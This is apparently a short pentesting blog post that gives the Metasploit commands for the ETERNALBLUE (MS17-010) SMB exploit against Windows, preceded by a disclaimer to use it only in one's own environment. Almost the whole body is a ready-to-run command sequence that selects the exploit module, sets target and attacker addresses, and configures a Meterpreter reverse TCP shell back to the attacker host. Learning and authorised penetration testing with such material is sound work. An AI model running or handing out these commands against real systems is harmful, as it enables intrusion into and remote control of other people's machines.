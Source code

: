 ```yaml
---
layout: post
title: "Exploit ETERNALBLUE with Metasploit"
tags: [metasploit,eternalblue,smb,pentesting,windows]
---
```


> **Disclaimer**: Only use this in your own environment. Using this exploit against other people's systems is *illegal*!

Run `msfconsole`:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set rhost <TARGET_IP>
set lhost <ATTACKER_IP>
set payload windows/x64/meterpreter/reverse_tcp
exploit
```

---
